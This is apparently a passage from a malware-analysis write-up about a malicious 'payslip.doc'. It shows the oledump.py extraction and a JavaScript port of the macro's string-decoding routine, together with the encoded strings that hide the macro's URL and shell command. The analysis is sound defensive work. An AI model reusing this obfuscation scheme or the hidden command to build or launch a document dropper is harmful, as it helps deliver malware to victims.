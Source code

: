 <br>This extraction worked quite nice. But VBA code didn't really help me as I didn't know of any online VBA execution tool. The one tool I know and I really like is [_JsFiddle_](https://jsfiddle.net/). So the obvious consequence was to rewrite the code into JavaScript, what I did..<br>
Except running the Shell command on line 69 we use a _console.log()_ to print the whole code which would be executed.<br>
The one thing I didn't find in the whole VBA code was the definition for _UserForm1.TextBox1_. So I needed way to find this..<br>
And again with [_oledump.py_](https://blog.didierstevens.com/programs/oledump-py/) and a few tries I found the initialization for the variable.<br>
>$ python oledump.py payslip.doc -S -s 11
>qwertyuiopasdfghjklzxcvbnm/"'()[]${}.,\;-%_|:

I then had to modify the variable _global_text_ a little bit because the URL didn't turn out correctly the first time.
Here we go:<br><br>

```
var global_text = " qwertyuiopasdfghjklzxcvbnm/\"'()[]${.},\;-%_|:";

function gnkruhl() {
    var leng = 6 * Math.random() + 4;
    var name1 = "";
    for (var i = 1; i <= leng; i++) {
        num = 24 * Math.random() + 97;
        name1 = name1 + String.fromCharCode(num);
    }
    return name1;
}

function DecodeString(text) {
    var decode = "";
    for (var i = 1; i <= text.length; i++) {
        decode = decode + GetAlphabetSymbol(SearchNum(text.substr(i, 1)), 5);
    }
    return decode;
}

function GetAlphabetSymbol(num, key) {
    if (num - key < 1) {
        return global_text.substr(global_text.length + num - key, 1);
    } else {
        return global_text.substr(num - key, 1);
    }
}

function SearchNum(symbol) {
  for (var i = 1; i <= global_text.length; i++) {
    if (symbol == global_text.substr(i, 1)) {
        return i;
      }
  }
}

function test2 (text, dec, name){
  return text + dec + name;
}

var name1 = gnkruhl();
var name2 = gnkruhl();
var name3 = gnkruhl();
var name4 = gnkruhl();
var dec1 = DecodeString("/)kt[/tgfuiojxibbt]$gfuiojxibbt]]ls(/pdf(t")
var dec2 = DecodeString("{.jpod(z,t\\")
var dec3 = DecodeString("};{(iu f'ci/ptjajpi)%(ip%ui'/bdi(p}%kfu(bfhkldbi{\\")
var dec4 = DecodeString("_$$qp)gq|")
```